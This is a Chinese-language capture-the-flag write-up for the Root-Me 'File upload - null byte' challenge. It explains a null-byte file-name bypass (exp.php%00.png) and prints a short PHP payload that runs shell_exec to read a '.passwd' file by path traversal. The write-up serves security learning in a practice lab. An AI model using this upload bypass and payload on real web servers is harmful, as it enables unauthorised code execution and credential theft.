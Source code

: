 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[File upload - null byte](https://www.root-me.org/en/Challenges/Web-Server/File-upload-null-byte)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-server/fileupload-nullbyte/)]

------

这题和【[Web-Server : File upload - double extensions](http://exp-blog.com/2019/01/13/pid-2985/)】、【[Web-Server : File upload - MIME type](http://exp-blog.com/2019/01/13/pid-2987/)】的渗透思路是一样的，区别在于之前的两种绕过方式均被封锁了。

这次提示的绕过方式是空字节漏洞 null byte ，依然在文件名上做文章，构造 payloads 文件 `exp.php%00.png`：

```php
<?php
	// exp.php%00.png
	// 假如这个文件上传成功，则可以利用 web 打开这个文件进行解析时进行路径穿越
	$content = shell_exec('cat ../../../.passwd');
	echo "<pre>$content</pre>";
?>
```

此文件名在上传时，可以在前端后缀欺骗，而后端在读取时遇到 `%00` 空字节会截断后面部分。

上传成功后获得 `exp.php%00.png` 文件的完整 URI，手工去掉末尾的 `%00.png` 后拼接到 URL，即可获得密码，完成挑战。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B18%5D%20%5B25P%5D%20File%20upload%20-%20null%20byte/imgs/01.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
